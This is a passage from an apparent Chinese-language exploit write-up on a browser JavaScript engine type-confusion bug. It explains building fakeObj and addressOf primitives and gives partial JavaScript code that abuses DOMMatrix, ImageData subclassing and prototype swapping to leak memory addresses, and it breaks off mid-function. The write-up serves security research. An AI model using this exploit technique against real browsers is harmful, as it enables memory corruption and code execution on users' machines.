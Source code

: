 可以看出，我们最终访问了 `b` 所在内存段的某个非法地址导致了程序崩溃。

## 漏洞利用

我们仍然希望能够达成任意地址读写的目的，这意味着仍然需要通过常规的方法去构造 `fakeObj` 和 `addressOf` 这两个原语。 

现在我们已经能够绕过类型检查去访问内存了，为了避免程序崩溃，我们需要找到内存结构正好符合我们预期的对象，通过这个类型混淆将非法地址处的数据读取出来。

比方说 `DOMMatrix` ，该对象具有很多属性：

```js
1.  DOMMatrix {a: 11, b: 12, c: 21, d: 22, e: 41, …}

1.  a: 11
2.  b: 12
3.  c: 21
4.  d: 22
5.  e: 41
6.  f: 42
7.  is2D: false
8.  isIdentity: false
9.  m11: 11
10.  m12: 12
11.  m13: 13
12.  m14: 14
13.  m21: 21
14.  m22: 22
15.  m23: 23
16.  m24: 24
17.  m31: 31
18.  m32: 32
19.  m33: 33
20.  m34: 34
21.  m41: 41
22.  m42: 42
23.  m43: 43
24.  m44: 44
25.  [[Prototype]]: DOMMatrix
```

我们通过访问其中的某个属性来构造内联缓存，然后就能指定从某个具有相似结构的对象的相同偏移处读取数据了：

```js
    loopCount=20;
    class SubImg extends ImageData {
      constructor(imgData) {
        super(imgData, height,width);
      }
      getAddr() {
        return super.m21;//<----类型混淆读取非法数据
      }
    }
    var imgDataStore = new ArrayBuffer(48);
    var imgData = new Uint8ClampedArray(imgDataStore);
    var img = new SubImg(imgData);
    var matrixInput = [11,12,13,14,21,22,23,24,31,32,33,34,41,42,43,44];
    var domMatrixImg = new DOMMatrix(matrixInput);
    function leakImageAddr(i) {
      domMatrixImg['a' + i] = 1;
      if (i < loopCount) {
        SubImg.prototype.__proto__ = {};
      } else {
        SubImg.prototype.__proto__ = domMatrixImg;
      }
      domMatrixImg.m21;//<----创建处理程序
      let addr = img.getAddr();
```